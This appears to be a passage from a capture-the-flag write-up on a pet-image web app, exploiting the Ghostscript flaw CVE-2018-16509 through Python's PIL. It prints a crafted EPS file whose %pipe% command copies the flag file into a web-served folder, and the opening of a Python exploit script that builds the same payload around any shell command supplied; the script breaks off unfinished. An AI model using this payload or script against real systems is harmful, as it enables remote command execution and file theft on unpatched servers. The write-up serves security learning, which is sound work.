             os.unlink(tmp_path)
    
            return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200
    
        except:
            return {'status': 'failed', 'message': 'Something went wrong'}, 500
    ```
    

# The Bug

*Python PIL Module* (Python Imaging Library) is vulnerable to Remote Command Execution via Ghostscript (CVE-2018-16509)

- [https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509)
- [More Ghostscript Issues: Should we disable PS coders in policy.xml by default?](https://seclists.org/oss-sec/2018/q3/142)

# Exploitation

[PIL-RCE-Ghostscript-CVE-2018-16509/rce.jpg at master · farisv/PIL-RCE-Ghostscript-CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509/blob/master/rce.jpg)

**exploit.jpg**

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cp /app/flag* /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

```python
#!/usr/bin/python3
from sys import argv
import requests

if len(argv) < 4:
    print('Usage: python3 exploit.py <target> <port> <payload>')
    exit()

target, port, payload = argv[1:]

print("Preparing the exploit...")

exploit = """%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%"""
exploit += payload
exploit += ") currentdevice putdeviceprops"
exploit += ''
```